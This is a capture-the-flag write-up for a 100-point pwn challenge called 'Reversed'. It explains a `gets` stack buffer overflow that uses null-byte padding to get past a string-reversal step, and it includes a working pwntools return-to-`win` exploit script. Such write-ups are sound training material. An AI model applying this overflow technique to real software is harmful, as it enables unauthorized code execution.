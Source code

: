 # Reversed

### Description

A service to reverse your string!, for some reason. { server_addr }

### Author

momiji

### Points

100

# Write-up

There is a super obvious buffer overflow vulnerability in the binary since it 
calls `gets` to get string into a buffer and using `checksec` this binary doesn't 
have any protection at all.

```
Arch:       amd64-64-little
RELRO:      Partial RELRO
Stack:      No canary found
NX:         NX enabled
PIE:        No PIE (0x400000)
Stripped:   No
```

there is also a function called `win` that read the flag. With this we can just 
do a buffer overflow and point the return address to `win` but before that, there
is a function `reversed` being called, it essentially do a `strlen` and reverse 
our input. Now we can't just do a normal buffer overflow anymore, but if you look 
into `strlen` from [glibc](https://github.com/lattera/glibc/blob/master/string/strlen.c) 

```
for (char_ptr = str; ((unsigned long int) char_ptr
			& (sizeof (longword) - 1)) != 0;
       ++char_ptr)
    if (*char_ptr == '\0')
      return char_ptr - str;
```

it stops at `null` byte, so we can use `null` bytes to be our padding to the return 
address and `reversed` function will do nothing because the number returned from 
`strlen` is `0`.

solve script:

```python
from pwn import *

elf = context.binary = ELF("./vuln")

if args.REMOTE:
    io = remote("localhost", 13337)
else:
    io = process()

offset = 0x70 + 0x8
ret = 0x401016
payload = b"\x00" * offset + p64(ret) + p64(elf.symbols["win"])

io.sendline(payload)
io.interactive()
```

You might notices an extra `ret` in the script, try to run the script without 
the extra `ret` and figure it out why it fails without it. And yes you must do
it (just kidding).
